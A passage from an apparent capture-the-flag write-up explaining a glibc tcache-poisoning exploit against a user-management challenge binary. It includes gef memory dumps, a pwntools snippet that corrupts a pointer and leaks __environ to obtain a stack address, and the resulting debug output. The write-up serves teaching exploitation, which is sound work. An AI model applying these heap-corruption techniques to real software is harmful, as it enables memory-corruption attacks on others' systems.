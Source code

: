 Stepping through `edit`, we see it is crashing when trying to read into `group`. This is because the allocation for `name` (which occurs after allocating `group`) returns a pointer to `u + 0x10` (`u->name`). `group`'s pointer is at `u + 0x18`, which is the second quadword in the retrieved allocation. When `tcache_get` fetches the cached (and poisoned) allocation, this leads to `u->group` being nulled out (glibc assumes `tcache_key` lived there!). We then end up attempting the call `fgets(0, 0x10, stdin)`, which of course crashes due to a null-dereference.

```
gef➤  x/xg &u
0x55a400297058 <u>:     0x000055a4011422a0
gef➤  x/6xg 0x000055a4011422a0
0x55a4011422a0: 0x000000000000000a      0x000000000000000a
0x55a4011422b0: 0x00007fefcc806258      0x0000000000000000 < u->group
0x55a4011422c0: 0x000055a4011422d0      0x0000000000000491
```

We need to assess what control we have. We could change the address that we corrupt to return `u + 0x20` instead. This could work. But we also notice that we read `name`'s value _before_ `group` in `edit`. This means we have an opportunity to change `group`'s pointer before it is used! Let's make it a valid address, such as itself. With this change we successfully get around the crash by making `group` a valid pointer.

```python
edit(p64(target_overwrite),
    b"BBBB",
    10,
    10,
    p64(glibc_leak) + p64(glibc_leak) + p64(bio-0x10) + p64(bio-0x10))
new(p64(environ) + p64(group), b"BBBB", 10, 10, b"AAAA")
leak = _print()
stack_leak = leak[leak.find(b"User: ") + len(b"User: "):]
stack_leak = stack_leak[:stack_leak.find(b',')]
stack = u64(stack_leak.ljust(8, b'\x00'))
print("__environ value: " + hex(stack))
```

```
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0xa6 bytes:
    00000000  55 73 65 72  3a 20 58 f8  71 e8 fd 7f  2c 20 67 72  │User│: X·│q···│, gr│
    00000010  6f 75 70 3a  20 42 42 42  42 2c 20 75  69 64 3a 20  │oup:│ BBB│B, u│id: │
    00000020  31 30 2c 20  67 69 64 3a  20 31 30 0a  42 69 6f 3a  │10, │gid:│ 10·│Bio:│
    00000030  20 41 41 41  41 50 6c 65  61 73 65 20  65 6e 74 65  │ AAA│APle│ase │ente│
    00000040  72 20 61 6e  20 6f 70 74  69 6f 6e 3a  0a 20 31 2e  │r an│ opt│ion:│· 1.│
    00000050  20 4e 65 77  20 75 73 65  72 0a 20 32  2e 20 45 64  │ New│ use│r· 2│. Ed│
    00000060  69 74 20 75  73 65 72 0a  20 33 2e 20  50 72 69 6e  │it u│ser·│ 3. │Prin│
    00000070  74 20 75 73  65 72 0a 20  34 2e 20 44  65 6c 65 74  │t us│er· │4. D│elet│
    00000080  65 20 75 73  65 72 0a 20  35 2e 20 53  75 62 6d 69  │e us│er· │5. S│ubmi│
    00000090  74 20 74 69  63 6b 65 74  20 66 6f 72  20 61 64 6d  │t ti│cket│ for│ adm│
    000000a0  69 6e 0a 20  3e 20                                  │in· │> │
    000000a6
__environ value: 0x7ffde871f858
```
